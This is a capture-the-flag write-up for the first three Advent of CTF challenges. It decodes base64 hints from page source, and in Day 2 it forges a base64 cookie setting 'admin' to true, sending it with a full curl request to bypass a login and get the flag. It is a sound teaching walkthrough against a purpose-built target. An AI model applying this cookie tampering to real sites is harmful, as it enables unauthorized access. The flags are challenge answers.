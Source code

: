 # Day 0
## Description
Do you remember the flag in the teaser website?

## Methodology
We go to [webarchive.org](http://web.archive.org/) and we search for [adventofctf.com](http://web.archive.org/web/20201112020839/https://www.adventofctf.com/). By searching for `<!-- END WAYBACK TOOLBAR INSERT -->` to get the source web of [adventofctf.com](https://adventofctf.com/) by found: `<!-- Ceasar worked on this you know. Tk9WSXtIRVlfMVNfVGgxU19AX0ZsYTk/fQ== -->` the end look like base64.

```bash
$ echo "Tk9WSXtIRVlfMVNfVGgxU19AX0ZsYTk/fQ==" | base64 -d
NOVI{HEY_1S_Th1S_@_Fla9?}
```

# Day 1
## Description
All starts should be easy

Visit https://01.adventofctf.com to start the challenge.

## Methodology
By visiting the provided URL, the have a login form asking for santa's password in plain text. Above the login form there is text saying: "We start off with an easy flag, just to get you familiar with the CTF system. Can you find the flag?". If it is easy, we must of at the HTML source first. By looking quickly in the HTML source we found the following comment: `!-- This is an odd encoded thing right? YWR2ZW50X29mX2N0Zl9pc19oZXJl -->`. This must be base64, let's try:

```bash
echo "YWR2ZW50X29mX2N0Zl9pc19oZXJl" | base64 -d 
advent_of_ctf_is_here
```

And we get the flag by submitting the previous password: `Here is a flag: NOVI{L3T_7H3_M0NTH_0F_FUN_START}`

# Day 2
## Description
For the 2nd challenge you will need to bypass the login mechanism.

Visit https://02.adventofctf.com to start the challenge.

## Methodology
The given URL leads to a login form, by exploring the sources, we saw that the login form request `index.php`, we can't abuse direct page requesting. By submiting random username and password the page says: `I'm sorry Guest, I can not do that.`. We are considered as a guest, intresting. May we look at the cookie? In the cookie there is the following filed: `authenticated: "eyJndWVzdCI6InRydWUiLCJhZG1pbiI6ImZhbHNlIn0="`. By decoding this base64 we have: 
```bash
$ echo "eyJndWVzdCI6InRydWUiLCJhZG1pbiI6ImZhbHNlIn0=" | base64 -d
{"guest":"true","admin":"false"}
```

Great, what we have to is the forge a request where admin is **true** and guest is false:
```bash
$ echo '{"guest":"false","admin":"true"}' | base64
eyJndWVzdCI6ImZhbHNlIiwiYWRtaW4iOiJ0cnVlIn0K
curl 'https://02.adventofctf.com/index.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: https://02.adventofctf.com' -H 'Connection: keep-alive' -H 'Referer: https://02.adventofctf.com/index.php' -H 'Cookie: authenticated=eyJndWVzdCI6ImZhbHNlIiwiYWRtaW4iOiJ0cnVlIn0K' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'username=dfsdf&password=hghf'
<html class="no-js" lang="">
    <head>
[...]
                        NOVI{cookies_are_bad_for_auth}
[...]
	<body>
</html>


